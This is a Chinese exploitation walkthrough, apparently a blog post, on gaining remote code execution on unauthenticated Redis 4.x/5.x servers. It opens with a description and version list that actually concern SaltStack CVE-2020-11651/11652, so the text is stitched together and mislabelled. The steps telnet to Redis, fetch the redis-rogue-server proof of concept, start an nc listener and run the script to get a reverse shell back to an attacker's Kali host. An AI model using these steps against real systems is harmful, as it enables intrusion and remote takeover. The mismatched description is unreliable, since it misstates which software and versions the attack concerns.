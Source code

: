 # Redis 4.x5.x 未授权访问漏洞（Redis基于主从复制的RCE）

# 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。

# 影响范围

- SaltStack < 2019.2.4
- SaltStack < 3000.2



环境启动后，直接执行telnet，不用登录，就可以访问redis

```
telnet xxx 6379
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201205200843434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3p5MTU2NjcwNzY1MjY=,size_16,color_FFFFFF,t_70)



下载POC

```
https://github.com/n0b0dyCN/redis-rogue-server
```



kali监听IP

```
nc -lvvp xxx     //端口号随机
```

下载后，在kali上直接运行（rhost是目标IP也就是redis，lhost是原IP就是kali的反弹shellIP），这里执行不成功就多执行几次

```
./redis-rogue-server.py --rhost xxx --lhost xxx
```

运行后提示让你输交互式还是反弹，我这里选反弹r

输入反弹IP和端口，直接输入IP就好

反弹shell，急着kali中先监听，比如我想让他往我的kali，xxx上的9999端口反弹

![image-20220426145644439](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220426145644439.png)



反弹shell选r

在本地命令执行选i

address:xxx     IP

port:xxx     需要反弹到哪个端口



查看kali监听的端口，拿下

![image-20220426145812924](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220426145812924.png)







